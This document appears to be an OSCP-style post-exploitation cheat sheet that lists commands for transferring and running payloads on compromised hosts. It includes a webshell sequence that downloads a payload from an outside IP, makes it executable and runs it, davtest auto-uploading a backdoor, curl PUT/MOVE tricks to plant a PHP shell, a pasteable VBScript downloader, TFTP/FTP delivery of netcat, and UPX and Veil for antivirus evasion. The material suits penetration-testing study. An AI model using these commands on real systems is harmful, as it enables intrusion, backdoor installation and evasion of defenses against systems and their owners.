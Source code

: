 # Post Exploitation

## Simple Local Web Servers

Run a basic http server, great for serving up shells etc  
>python -m SimpleHTTPServer 80

Run a basic Python3 http server, great for serving up shells etc..  
>python3 -m http.server

Run a ruby webrick basic http server  
>ruby -rwebrick -e "WEBrick::HTTPServer.new (:Port => 80, :DocumentRoot => Dir.pwd).start"

Run a basic PHP http server  
>php -S $ip:80

Creating a wget VB Script on Windows:  
https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt

Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

>echo Set args = Wscript.Arguments  >> webdl.vbs
>
>timeout 1
>
>echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
>
>timeout 1
>
>echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
>
>timeout 1
>echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
>timeout 1
>
>echo xHttp.Open "GET", Url, False  >> webdl.vbs
>
>timeout 1
>
>echo xHttp.Send  >> webdl.vbs
>
>timeout 1
>
>echo with bStrm >> webdl.vbs
>
>timeout 1
>
>echo .type = 1 ' >> webdl.vbs
>
>timeout 1
>
>echo .open >> webdl.vbs
>
>timeout 1
>
>echo .write xHttp.responseBody >> webdl.vbs
>
>timeout 1
>
>echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
>
>timeout 1
>
>echo end with >> webdl.vbs
>
>timeout 1
>
>echo
>
>The file can be run using the following syntax:
>
>C:\temp\cscript.exe webdl.vbs

Mounting File Shares

>Mount NFS share to /mnt/nfs  
>mount $ip:/vol/share /mnt/nfs

HTTP Put  
>nmap -p80 $ip --script http-put --script-args
>
>http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

## Uploading Files

SCP

>scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

>scp localfile username@$ip:~/Folder/

>scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~


Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

>davtest -move -sendbd auto -url http://$ip

https://github.com/cldrn/davtest

You can also upload a file using the PUT method with the curl command:

>curl -T 'leetshellz.txt' 'http://$ip'

And rename it to an executable file using the MOVE method with the curl command:

>curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'

## Upload shell using limited php shell cmd  

use the webshell to download and execute the meterpreter  
>\[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
>
>/tmp/evil" http://$ip/files/sh.php  
>
>\[curl -s --data "cmd=chmod 777 /tmp/evil"
>
>http://$ip/files/sh.php  
>
>curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

TFTP  
>mkdir /tftp  
>
>atftpd --daemon --port 69 /tftp  
>
>cp /usr/share/windows-binaries/nc.exe /tftp/  

EX. FROM WINDOWS HOST:  
>C:\\Users\\Offsec>tftp -i $ip get nc.exe

FTP  
>apt-get update && apt-get install pure-ftpd  

>\#!/bin/bash  
>
>groupadd ftpgroup  
>
>useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
>
>pure-pw useradd offsec -u ftpuser -d /ftphome  
>
>pure-pw mkdb  
>
>cd /etc/pure-ftpd/auth/  
>
>ln -s ../conf/PureDB 60pdb  
>
>mkdir -p /ftphome  
>
>chown -R ftpuser:ftpgroup /ftphome/  
>
>/etc/init.d/pure-ftpd restart

## Packing Files

Ultimate Packer for eXecutables  
>upx -9 nc.exe

exe2bat - Converts EXE to a text file that can be copied and pasted  
>locate exe2bat  
>
wine exe2bat.exe nc.exe nc.txt

Veil - Evasion Framework
https://github.com/Veil-Framework/Veil-Evasion  

>apt-get -y install git  
>
>git clone https://github.com/Veil-Framework/Veil-Evasion.git  
>
>cd Veil-Evasion/  
>
>cd setup  
>
>setup.sh -c
